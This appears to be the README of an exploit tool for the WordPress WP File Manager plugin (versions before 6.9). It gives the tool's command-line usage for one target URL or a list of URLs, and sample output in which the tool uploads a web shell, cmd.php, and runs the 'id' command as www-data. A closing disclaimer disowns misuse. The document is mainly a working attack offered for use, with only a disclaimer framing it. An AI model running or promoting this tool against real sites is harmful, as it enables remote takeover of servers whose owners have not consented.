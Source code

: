 # wp-file-manager
WP File Manager < 6.9 - Arbitrary File Upload leading to RCE

```
usage: wp-file-manager.py [-h] [-u URL] [-f FILE]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL of host to check will need http or https
  -f FILE, --file FILE  File of URLS to check
```

```
[+] Testing https://localhost [+]
[*]Shell Uploaded https://localhost/wp-content/plugins/wp-file-manager/lib/files/cmd.php?cmd=id[*]
Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


Legal disclaimer
---

Usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.
